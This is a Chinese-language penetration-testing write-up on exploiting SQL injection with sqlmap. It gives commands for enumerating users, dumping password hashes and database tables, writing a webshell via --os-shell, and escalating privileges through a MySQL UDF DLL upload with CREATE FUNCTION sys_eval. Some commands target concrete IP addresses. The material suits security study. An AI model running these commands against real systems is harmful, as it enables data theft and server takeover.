 SQL注入虽然作为经典漏洞，但我在实战中多数情况只是点到为止，并没有深入利用过。这次来总结一下sql注入的利用方式。

## 常规利用

sqlmap是必不可少的工具

~~~
python .\sqlmap.py -u "http://47.106.80.112:8011/?r=content&cid=1" 
# url中存在&时要用""括起来
//指定文件
python .\sqlmap.py -r .\postinject.txt

python .\sqlmap.py -u http://101.43.138.109/ajax/api/content_infraction/getIndexableContent --data "nodeId[nodeid]=1" -proxy=http://127.0.0.1:8080
//设置代理
~~~

查看基本信息

~~~
sqlmap -u "url" --users //查看所有用户
sqlmap -u "url" --current-db //查看当前的数据库
sqlmap -u "url" --current-user //产看当前的用户
sqlmap -u "url" --is-dba //查看是否是最高权限
sqlmap -u "url" --passwords //查看所有密码
sqlmap -u "url" –hostname //查看主机名
sqlmap -u "url" privileges -U username //查看用户权限
sqlmap -u "url" –roles //查看用户角色
~~~

基本参数

~~~
--dbs  //查询数据库
-D <数据库名> --tables //查表
-D <seacms_com> -T <adword> --columns //查询字段
-D seacms_com -T adword -C ad1, ad2 --dump //获取字段内容
-D seacms_com -T adword --dump //下载整个表
~~~

### `--sql-shell` 模式

--sql-shell 可执行sql语句

### --os-shell

顾名思义，这个功能就是执行系统命令，相当于一个webshell，然而利用条件十分苛刻。

~~~
（1）必须是dba权限
（2）攻击者需要知道网站的绝对路径
（3）GPC为off，php主动转义的功能关闭
（4）secure_file_priv= 值为空

secure-file-priv参数是用来限制LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()传到哪个指定目录的。

NULL	不允许导入或导出
/tmp	只允许在 /tmp 目录导入导出
空	不限制目录

在 MySQL 5.5 之前 secure_file_priv 默认是空，这个情况下可以向任意绝对路径写文件

在 MySQL 5.5之后 secure_file_priv 默认是 NULL，这个情况下不可以写文件
~~~

sql注入漏洞的常规思路：通过注入找管理员账户密码，登录管理员账户进入后台，寻找文件上传，命令执行。。。。

## 写webshell提权

目前secure_file_priv值为空，全部条件满足，可以利用

![image-20220317151155033](TyporaPicture/image-20220317151155033.png)

![image-20220317145214431](TyporaPicture/image-20220317145214431.png)

分析一下sqlmap的利用流程，执行命令后首先是创建了一个具有上传功能的页面。

![image-20220317145520798](TyporaPicture/image-20220317145520798.png)

![image-20220317145733074](TyporaPicture/image-20220317145733074.png)

随后又利用这个页面上传了一个webshell

![image-20220317145935997](TyporaPicture/image-20220317145935997.png)

通过webshell执行命令

![image-20220317150059960](TyporaPicture/image-20220317150059960.png)

重新设置secure_file_priv的值，删掉木马

![image-20220317152149333](TyporaPicture/image-20220317152149333.png)

上传失败，提示没有权限

~~~
[15:23:07] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
~~~

![image-20220317152340357](TyporaPicture/image-20220317152340357.png)

但是还是可以向C:/test/文件夹写入文件的。可以结合本地文件包含利用。

![image-20220317152625873](TyporaPicture/image-20220317152625873.png)

网站绝对路径收集方式

~~~
网页报错信息
phpinfo、探针
数据库查询、暴力破解
~~~

![image-20220317150541756](TyporaPicture/image-20220317150541756.png)

## UDF 提权

自定义函数，是数据库功能的一种扩展。通过上传对应的dll或so文件，在sql语句用即可调用自定义函数执行命令。

如果是 MySQL >= 5.1 的版本，必须把 UDF 的动态链接库文件放置于 MySQL 安装目录下的 lib\plugin 文件夹下文件夹下才能创建自定义函数。如果mysql版本小于5.1， udf.dll文件在windows server 2003下放置于c:\windows\system32目录，在windows server 2000下放置在c:\winnt\system32目录。

如果lib\plugin目录不存在，则需要先创建

~~~
show variables like '%plugin%';
//低版本mysql查询结果为空
~~~

不同版本的dll或so文件，在sqlmap或msf中可以找到。

~~~
sqlmap根目录/data/udf/mysql
MSF 根目录/embedded/framework/data/exploits/mysql
~~~

目前情景是SQL 注入且是高权限，plugin 目录可写且需要 secure_file_priv 无限制，直接上传

~~~
python .\sqlmap.py -r .\post.txt --file-write=""C:\Users\94323\Desktop\lib_mysqludf_sys_32.dll"" --file-dest="C:\udf.dll"
~~~

![image-20220318145137986](TyporaPicture/image-20220318145137986.png)

但不知道为什么，文件原大小为7kb，上传的文件只有1kb。

也可以用--os-shell步骤中得到的文件上传页面去上传dll文件。由此看来对udf的利用是在有webshell之后。

![image-20220318145754558](TyporaPicture/image-20220318145754558.png)

上传成功后创建自定义函数并调用命令

~~~
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
[14:58:56] [WARNING] execution of non-query SQL statements is only available when stacked queries are supported
~~~

sqlmap提示我非查询类sql语句只有在堆叠注入时才支持，这条件就很苛刻了，我还从没在实战中遇到过堆叠注入。看来只有3306连上去才能利用udf提权。

![image-20220318154327987](TyporaPicture/image-20220318154327987.png)

udf提权利用总结

- 知道数据库的用户和密码（配置文件泄露）
- mysql可以远程登录
- mysql有写入文件的权限，即secure_file_priv的值为空。

udf提权的利用条件很苛刻，但在拥有webshell权限的情况下，通过udf提权可以获得高权限账户。





